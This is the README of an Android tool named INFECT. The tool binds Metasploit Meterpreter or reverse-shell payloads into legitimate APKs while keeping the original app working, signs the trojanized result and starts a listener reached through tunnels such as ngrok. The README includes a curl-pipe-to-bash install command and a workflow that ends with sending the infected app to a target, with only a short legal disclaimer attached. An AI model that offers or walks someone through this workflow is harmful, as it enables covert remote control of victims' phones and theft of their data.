

# INFECT - Advanced APK Payload Injector



**INFECT** is a professional Android penetration testing tool that creates fully functional trojanized APKs with embedded Metasploit payloads while maintaining the original app's functionality.

## 🔥 Premium Features

✔ **Complete Infection Workflow**  
- Automated payload injection  
- Original functionality preservation  
- One-click listener setup  

✔ **Advanced Payload Options**  
- Meterpreter (TCP/HTTP/HTTPS)  
- Shell reverse TCP  
- Custom payload configuration  
- Automatic listener generation  

✔ **Professional Toolchain**  
- APKEditor integration  
- Multi-engine decompilation  
- Auto-signing with zipalign  

✔ **Tunnel Service Support**  
- Native Ngrok integration  
- Portmap.io compatibility  
- Playit.gg support  
- Local network testing  

## 📦 Installation

Install with one command in Termux:

```bash
curl -sL https://termuxvoid.github.io/repo/install.sh | bash && apt install infect -y
```

## 🛠️ Dependencies

Automatically installed:
- APKTool (`apktool`)
- APKEditor (`apkeditor`)
- Metasploit Framework (`msfvenom`)
- Java Signing Tools (`apksigner`, `jarsigner`, `keytool`)

## 🚀 Quick Start

1. Launch the tool:
```bash
infect
```

2. Main Menu Options:
```
[1] Bind payload to APK - Create trojanized application
[2] Start Metasploit listener - Ready-to-use handler
[3] Troubleshooting - View documentation
[4] Exit
```

## 💻 Complete Workflow Example

```bash
# Start the tool
infect

# Select option 1 (Bind payload)
# Choose target APK: /sdcard/Download/legit_app.apk
# Set LHOST: your-sub.portmap.io:54321
# Set LPORT: 4444
# Select payload type: android/meterpreter/reverse_https
# Output name: infected_app

# The tool will:
# 1. Decompile both APKs using APKEditor
# 2. Merge permissions and manifests
# 3. Inject payload smali code
# 4. Rebuild and sign the APK

# Transfer infected_app_signed.apk to target
# Start listener directly from the tool (option 2)
```

## 🎯 Advanced Features

**Integrated Metasploit Listener**
- Auto-configured handler
- Payload type matching
- Persistent session management

**Smart APK Processing**
- Automatic activity injection
- Permission analysis
- Manifest merging
- Resource preservation

**Tunnel Service Support**
```bash
Supported Formats:
- Direct IP: 192.168.1.100
- Ngrok: 0.tcp.ngrok.io:12345
- Portmap: your-sub.portmap.io:12345
- Playit: your-sub.playit.gg:12345
```

## 🧰 Technical Specifications

| Component       | Details                          |
|----------------|----------------------------------|
| Core Engine    | APKEditor + APKTool              |
| Payload System | Metasploit Framework             |
| Signing        | APKSigner + Jarsigner            |
| Compatibility  | Android 5.0+ (API 21+)           |
| Output         | Production-ready signed APK      |

## ⚠️ Legal Disclaimer

**This tool is for authorized security testing only.** Unauthorized use against systems you don't own or have explicit permission to test is illegal. The developers assume no liability for misuse.

## 📜 License

 BSD-3-Clause license

## 📬 Support

For bug reports and feature requests:  
[GitHub Issues](https://github.com/Anon4You/Infect/issues)  

For professional support and custom integrations:  
https://t.me/nullxvoid

---

**Ethical Notice:** Always obtain proper written authorization before conducting any security testing. Maintain logs of all testing activities.